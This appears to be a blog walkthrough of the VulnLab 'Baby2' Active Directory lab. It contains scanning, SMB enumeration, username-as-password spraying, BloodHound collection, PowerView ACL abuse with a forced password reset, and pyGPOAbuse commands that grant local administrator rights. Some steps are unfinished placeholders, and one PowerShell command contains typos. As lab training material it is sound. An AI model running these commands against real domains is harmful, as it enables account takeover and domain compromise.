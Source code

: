 ```yaml
---
layout: post
title: VulnLab - Baby2 Walkthrough
date: 16-04-2025
categories: [Machines]
tags: [misconfigurations, ACLs, GPOs, smb, guest]
image: "https://assets.vulnlab.com/baby2_slide.png"
---
```


## Introduction

Welcome back to my Active Directory exploitation series from VulnLab! In the previous post, we explored “Baby”, a beginner-friendly Windows machine that introduced key AD fundamentals like LDAP enumeration and abusing SeBackupPrivilege for privilege escalation.

Today, we’re stepping things up with the second lab in the series — “Baby2”.

Baby2 is a solo, intermediate-level Windows Active Directory machine that dives deeper into AD misconfigurations, with a strong focus on Access Control Lists (ACLs) and Group Policy Objects (GPOs). These are common real-world components of Active Directory environments, and understanding how to identify and abuse misconfigurations around them is crucial for any Pentration Tester or Red Teamer.

> By the end of this lab, you’ll have hands-on experience with:
>- Identifying misconfigured ACLs on domain objects
>- Leveraging GPO-based privilege escalation 
{: .prompt-tip }

### Understanding the Concepts
Before jumping into the exploitation phase, let’s break down the two main concepts this lab focuses on — `Access Control Lists (ACLs)` and `Group Policy Objects (GPOs)` in a beginner-friendly way.

**Access Control Lists (ACLs)**
> An `Access Control List (ACL)` in Active Directory is essentially a set of permissions attached to an object, think of it as a list of `who can do what`. For example, imagine a shared folder in an office: 
>- Alice might have permission to read files, Bob can edit them, and Charlie has full control, including read, write, and delete access. 
>- Similarly, in Active Directory, ACLs define who can access, modify, or take control of objects like user accounts, groups, or computers. 
{: .prompt-tip }

## Scanning
```bash
nmap -Pn -T4 -sC -sV  -p53,88,135,139,389,445,464,593,636,3389,5985,9389,49664,49667,49669,49674,49676,63798,63782,63775  10.10.83.184 -oN reports/all_tcp.txt
```
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-14 01:33 EAT
Nmap scan report for 10.10.83.184 (10.10.83.184)
Host is up (0.26s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-13 22:34:01Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby2.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: baby2.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.baby2.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.baby2.vl
| Not valid before: 2025-04-13T21:30:57
|_Not valid after:  2026-04-13T21:30:57
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: BABY2
|   NetBIOS_Domain_Name: BABY2
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: baby2.vl
|   DNS_Computer_Name: dc.baby2.vl
|   DNS_Tree_Name: baby2.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2025-04-13T22:34:55+00:00
| ssl-cert: Subject: commonName=dc.baby2.vl
| Not valid before: 2025-04-12T21:39:46
|_Not valid after:  2025-10-12T21:39:46
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
63775/tcp open  msrpc         Microsoft Windows RPC
63782/tcp open  msrpc         Microsoft Windows RPC
63798/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-04-13T22:34:56
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 197.82 seconds

```

## Enumeration

### SMB

```bash
nxc smb 10.10.83.184 -u 'Guest' -p '' --shares
```

![alt text](/assets/screenshots/baby2/1.png)

Got users

![alt text](/assets/screenshots/baby2/2.png)

Username as Password

```bash
nxc smb 10.10.68.173 -u loots/users.txt -p loots/users.txt --continue-on-success --no-bruteforce
```

![alt text](/assets/screenshots/baby2/3.png)

Enumerating Users

```bash
nxc smb 10.10.68.173 -u Carl.Moore -p Carl.Moore --users
```

![alt text](/assets/screenshots/baby2/4.png)

### Bloodhound

```bash
bloodhound-python -d baby2.vl  -c all -u 'Carl.Moore' -p 'Carl.Moore' -ns 10.10.68.173 --zip
```

![alt text](/assets/screenshots/baby2/5.png)

![alt text](/assets/screenshots/baby2/6.png)

## Initial Access

### Abusing Logon Script

here

![alt text](/assets/screenshots/baby2/7.png)

here

![alt text](/assets/screenshots/baby2/8.png)

dd

Got a shell

![alt text](/assets/screenshots/baby2/9.png)

## Privilege Escalation

### writeDACL

![alt text](/assets/screenshots/baby2/10.png)

```powershell
Import-Module .\PowerView.ps1
```

```powershell
Set-DomainObjectOwner -Identity gpoadm -OwnerIdentity Amelia.Griffiths
```

Confirm

```powershell
Get-ADUser gpoadmin | ForEach-Object {Get-ACL "AD:\$($_.DistingishedNam)" | Select-Object -ExpandProperty Owner}
```

All ACL

```powershell
Add-DomainObjectAcl -PrincipalIdentity Amelia.Griffiths -TargetIdentity gpoadm -Rights All
```

Change Password

```powershell
$NewPassword = ConvertTo-SecureString 'Password1234' -AsPlainText -Force
```

```powershell
Set-DomainUserPassword -Identity 'gpoadm' -AccountPassword $NewPassword
```

Finally

```powershell
nxc smb 10.10.70.158 -u gpoadm -p 'Password1234'
```

![alt text](/assets/screenshots/baby2/11.png)

### GPO Abuse

![alt text](/assets/screenshots/baby2/12.png)

GPO Path

![alt text](/assets/screenshots/baby2/13.png)

Abuse GPO

```powershell
python3 pygpoabuse.py 'baby2.vl/gpoadm:Password1234' -gpo-id "6AC1786C-016F-11D2-945F-00C04FB984F9" -command "net localgroup administrators gpoadm /add" -f
```

```powershell
gpupdate /force
```

![alt text](/assets/screenshots/baby2/14.png)

Dump Secrets

![alt text](/assets/screenshots/baby2/15.png)

Root

![alt text](/assets/screenshots/baby2/16.png)

## References

[NetExec Cheatsheet](https://seriotonctf.github.io/2024/03/07/CrackMapExec-and-NetExec-Cheat-Sheet/)

[Logon script | The Hacker Recipes](https://www.thehacker.recipes/ad/movement/dacl/logon-script)

[Abusing AD-DACL: WriteDacl - Hacking Articles](https://www.hackingarticles.in/abusing-ad-dacl-writedacl/)

https://github.com/Hackndo/pyGPOAbuse